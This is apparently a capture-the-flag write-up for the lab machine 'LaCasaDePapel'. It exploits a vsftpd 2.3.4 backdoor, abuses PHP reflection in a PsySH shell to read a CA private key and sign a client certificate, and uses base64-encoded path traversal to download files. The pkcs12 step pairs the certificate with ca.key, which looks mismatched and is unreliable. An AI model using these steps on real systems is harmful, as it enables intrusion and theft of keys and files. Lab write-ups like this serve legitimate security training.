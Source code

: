 # LaCasaDePapel

10.10.10.131

![logo](./logo.pngs)

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!

Running:
```
$caKey = file_get_contents('/home/nairobi/ca.key');
```
Will give us the ca.key used to signed the certificate. This will let us turn the signed cert into a pk12 file


Chagning into a pk12 file:
```
openssl pkcs12 -export -inkey ca.key -in signed.crt -out signed.p12
```

Using this cert brings us to a ```PRIVATE AREA``` where we can request files with this URL:

```
https://10.10.10.131/?path=X
```

From error messages we seem to be in:

```
/home/berlin/downloads/home/
```

When downloading files we're directed to a url like so:
```
https://10.10.10.131/file/Li4vZG93bmxvYWRzL1NFQVNPTi0yLzAxLmF2aQ==
```

This is a base64 encoded file path. In theory this should let us encode our own

Below is ```../user.txt``` url:

```
https://10.10.10.131/file/Li4vdXNlci50eHQK
```